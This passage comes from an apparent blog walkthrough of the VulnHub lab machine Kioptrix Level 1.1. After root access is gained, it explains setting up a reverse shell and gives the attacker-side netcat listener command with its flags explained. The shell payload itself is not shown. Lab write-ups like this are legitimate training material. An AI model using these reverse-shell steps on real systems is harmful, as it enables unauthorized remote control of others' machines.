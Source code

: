 ![id](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/cicheckidheisroot.png)
![sudo](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/cisudopermissions.png)

So, I decided To Exploit it for `root` access but Interaction Between it is So Uncomfortable i maked a **Reverse Shell** For Better Interaction

#### Step 3.3: Reverse Shell

- But It not contain `Netcat` So, I used `bash -i` for Interactive Shell.

1. First I Placed a Lisiner I Attacker Machine Using `nc`
: 
```bash
nc -lnvp 1234
```
![nclvnp](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/reverseshellAttacker.png)
- Here,
  - `nc` : NetCat It used to Listen OR Send a Connection Between **TCP ports** on Systems .
  - `-l` : Listen
  - `-n` : No Domain Name System
  - `-v` : verbose output
  - `-p` : port
- Now Attacker Is **Listening On Port** `1234`
